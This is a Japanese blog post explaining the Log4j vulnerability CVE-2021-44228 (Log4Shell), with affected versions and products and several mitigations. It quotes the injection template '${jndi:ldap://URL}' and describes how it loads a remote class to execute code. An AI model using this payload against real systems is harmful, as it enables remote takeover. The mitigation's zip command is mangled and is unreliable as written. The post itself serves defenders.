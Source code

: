 ```yaml
---
layout: single
title:  "Log4jの脆弱性(CVE-2021-44228)について"
date:   2021-12-11 16:11:07 +0900
categories:
  - 脆弱性
tags: 
  - Java
  - log4j
toc: true
toc_label: "目次"
toc_icon: "cog"
---
```


# Log4j脆弱性について

今巷で大きな話題になっているLog4jについてまとめてみた。
まだ、CVE情報などが完全には公開されていない状態で執筆している記事ですので、あくまで参考程度にとどめてください。

https://www.itmedia.co.jp/news/articles/2112/10/news157.html

https://zenn.dev/yuitosato/articles/ed283add200e2a

## Log4jとは

Javaのロギングのためのクラス・ライブラリで、Apacheのサブプロジェクトの1つです。

![log4j-01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/355263/3fd6a89f-38f6-fd56-55b4-e199ea31b436.png)
引用元：https://logging.apache.org/

上画像の通り、Java以外にも多くの言語・フレームワークでLog4jを利用できます。

Javaでの主要なロギング手法については、下記Qiitaの記事が分かりやすいと思います。

https://qiita.com/NagaokaKenichi/items/9febd2e559331152fcf8

## 今回話題になっている脆弱性(CVE-2021-44228)について

### 脆弱性の概要

![log4j.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/355263/10e846ea-27f6-447d-9062-25491546aea2.png)

Log4Jには、lookupという任意の場所でLog4j構成に値を追加する機能が存在します。  
lookup機能を利用することによりログ出力時にランタイムに情報を出力することができる。  
例として、"${java:runtime}"という変数を使えば、"Java(TM) SE Runtime Environment (build 1.7.0_67-b01) from Oracle Corporation"などのようにJavaのバージョン情報に置換される。  

今回問題となっているのはJndi Lookupという機能です。  
これはJavaのJava Naming and Directory Interfaceによる変数名の置換で、ネットワーク上から値を取得し置換することができます。

```
${jndi:ldap://URL}
```

このURLに.を含めることにより、lg4jは任意のリモートのLDAPサーバーからjava classファイルをダウンロードして読み込むことが可能になります。  
そのため、この脆弱性を悪用し、攻撃用のjava classファイルとLDAPサーバーを用意し、攻撃対象のLog4jを使っているプログラムに"${jndi:ldap://URL}"の形でログ出力されるように設定することで任意のコードが実行できるようになります。  

なので悪意あるjava classファイルとそれをホストするLDAPサーバーを用意して、ターゲットとなるJavaで動きlog4jを使っているプログラムに"${jndi:ldap://URL}"の形でログ出力されるようにすれば、任意のコード実行が可能になります。

CVE: CVE-2021-44228

### なぜこんなに騒がれているか

よりによってJavaの主要な機能だからです。Javaで作られたシステムは世の中に多数存在しそのシステムが今回の脆弱性の影響を受けるためです。  
また、攻撃もリモートから実行可能かつ、攻撃に当たっての条件も複雑でなく、ユーザ権限も必要ないため、多くのシステムを簡単に攻撃可能といるのが今回の脆弱性のやばいところです。

また、自分のシステムで明示的にLog4jを使っていなくても、他のプラグインやソフトウェアで利用している可能性が高く脆弱性の影響範囲を洗い出すのが難しいという点があります。

### 影響を受けるシステム

#### バージョン

Apache Log4j 2.x <= 2.15.0-rc1

#### 影響を受けるソフトウェア

- Apache Struts
- Apache Solr
- Apache Druid
- Apache Flink
- ElasticSearch
- Flume
- Apache Dubbo
- Logstash
- Kafka
- Spring-Boot-starter-log4j2

### 緩和策

#### lookup機能を無効化する

システムプロパティでlog4j2.formatMsgNoLookups=trueとしてlookup機能を無効化する。

#### クラスパスからJndiLookupクラスを削除する

例
```
zip -q -dlog4j-core-*。jarorg / apache / logging / log4j / core / lookup / JndiLookup.class
```

### WAFを利用する

利用しているWAFで今回の脆弱性の対応ができるようであれば、リスク緩和することが可能です。

AWSでクラスメソッド社が検証したブログを参考に記載しておきます。  
https://dev.classmethod.jp/articles/aws-waf-new-rule-log4jrce/

## 参考サイト

- http://www.nurs.or.jp/~sug/soft/log4j/log4j1.htm
- https://logging.apache.org/
- https://qiita.com/NagaokaKenichi/items/9febd2e559331152fcf8
- https://vuldb.com/ja/?id.187925
- https://ezoeryou.github.io/blog/article/2021-12-10-log4j.html
- https://access.redhat.com/security/cve/cve-2021-44228